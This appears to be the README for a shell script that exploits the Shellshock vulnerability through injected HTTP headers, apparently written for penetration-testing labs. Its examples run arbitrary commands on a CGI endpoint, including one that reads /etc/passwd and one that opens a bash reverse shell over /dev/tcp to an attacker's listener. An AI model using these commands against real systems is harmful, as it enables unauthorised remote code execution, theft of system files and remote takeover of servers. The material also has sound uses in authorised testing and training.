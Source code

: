 # http-shellshock.sh

Script to test web pages for shellshock vulnerabilities in headers

Switches

-u = URL
-h = Headings (optional)  to test a specific header feild in address, select number from list: 

      1 = "Content-Type"

      2 = "Referer"

      3 = "Cookie"

-s = Script command (optional) default is /bin/uname -a, Full paths to commands are required


Examples below

      ./http-shellshock.sh -u url [-h number] [-s 'command to run']

      ./http-shellshock.sh -u http://10.10.10.56/cgi-bin/user.sh

Full paths to binaries may be required as web service user may not have loaded profile. The below command tests a url "Content-Type" and cat's the passwd file in /etc.

      ./http-shellshock.sh -u http://10.10.10.56:80/cgi-bin/user.sh -h 1 -s '/bin/cat /etc/passwd'

If the target is vulnerable we might be able to get a reverse shell using the following...
Start a reverse nc listener and run the below changing the attackers IP and port
 
      ./http-shellshock.sh -u http://10.10.10.56:80/cgi-bin/user.sh -h 1 -s '/bin/bash -i >& /dev/tcp/10.10.14.22/443 0>&1'

